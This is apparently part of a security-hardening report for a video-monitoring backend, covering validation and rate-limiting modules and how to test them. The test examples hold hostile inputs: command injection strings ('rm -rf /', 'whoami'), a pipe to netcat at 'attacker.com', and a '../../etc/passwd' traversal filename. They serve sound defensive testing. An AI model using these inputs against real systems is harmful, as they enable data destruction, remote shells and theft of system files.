 **Impact:** Prevents DoS attacks and abuse of video capture functionality

---

## New Security Modules

### `backend/security_utils.py`
Centralized security validation functions:
- `validate_rtsp_url(url)` - RTSP URL validation and sanitization
- `sanitize_filename(filename)` - Filename sanitization with extension validation
- `validate_file_path(filepath, allowed_directory)` - Path traversal prevention
- `validate_sql_parameter(value, param_name)` - SQL injection pattern detection

### `backend/rate_limiter.py`
Rate limiting utilities:
- `RateLimiter` class - In-memory token bucket rate limiter
- `rate_limit(max_requests, window_seconds)` - Decorator for FastAPI endpoints
- Automatic cleanup of old entries
- Detailed logging of rate limit violations

---

## Testing Recommendations

### 1. Test RTSP URL Validation
```python
# Should reject:
validate_rtsp_url("rtsp://cam.com/stream; rm -rf /")
validate_rtsp_url("rtsp://cam.com/`whoami`")
validate_rtsp_url("http://cam.com/stream | nc attacker.com")

# Should accept:
validate_rtsp_url("rtsp://camera.local:554/stream")
validate_rtsp_url("rtsp://192.168.1.100/live")
```

### 2. Test Path Traversal Protection
```bash
# Send test email with malicious filename:
echo "Test" | mail -s "Test" -a "../../etc/passwd" camera-email@domain.com

# Check logs - should see: "Path traversal attempt detected"
journalctl -u videomonitoring -n 50 | grep "traversal"
```

### 3. Test Rate Limiting
```bash
# Make 4 requests rapidly to test endpoint:
for i in {1..4}; do
  curl -X POST http://localhost:8000/api/test/simulate-alarm \
    -H "Authorization: Bearer $TOKEN"
  sleep 1
done

# Fourth request should return HTTP 429
```
